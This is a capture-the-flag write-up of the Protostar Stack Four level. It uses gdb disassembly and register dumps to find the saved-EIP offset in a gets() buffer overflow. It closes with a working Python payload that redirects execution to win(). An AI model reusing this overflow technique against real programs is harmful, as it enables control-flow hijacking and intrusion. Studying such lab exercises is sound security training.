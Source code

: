 # Stack Four

> Stack4 takes a look at overwriting saved EIP and standard buffer overflows. This level is at /opt/protostar/bin/stack4&#x20;
>
>
>
> **Hints**
>
> * A variety of introductory papers into buffer overflows may help
> * gdb lets you do “run < input
> * EIP is not directly after the end of buffer, compiler padding can also increase the size.

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

In this program, we have the `win` function.

There is no initialized function pointer in the `main` function. There fore we will have to overwrite the saved `eip`, also known as the the saved return address.

The saved return address is located before the buffer.

```
                    +-------------------------+                                                       
entry esp --------> |     saved eip           |
                    |     (return address)    |
                    |-------------------------|                                                           
new ebp ----------> |     saved ebp           |
                    |-------------------------|
                    |     buff [63]           |
                    |          .              |
                    |          .              |
                    |          .              |
                    |     buff [0]            |
                    |-------------------------|
new esp ----------> |     i                   |
                    +-------------------------+
```

That was a generalized representation.

We need the exact layout of the stack in order to craft our payload.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```

Set a breakpoint at `main+21` and pass in the following input:

```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```

This will lead to segmentation fault.

```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```

The error message tells us that the value of stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

Let's try to get a clearer picture.

```
(gdb) info registers
eax            0xbffff770       -1073744016
ecx            0xbffff770       -1073744016
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7c0       0xbffff7c0
ebp            0x73737373       0x73737373
esi            0x0      0
edi            0x0      0
eip            0x74747474       0x74747474
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

So the 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`, and the four bytes before those which were `ssss` overwrote the saved `ebp`.

This means we need 80 bytes in total. 64 bytes to fill the `buffer`, 8 bytes of padding, 4 bytes to overwrite the `saved ebp` and 4 for overwriting the `saved eip`.

In order to alter control flow to the `win` function, we first need to know its address.

```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

These four bytes need to be the `0x080483f4` address in little-endian format.

### Exploit

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```
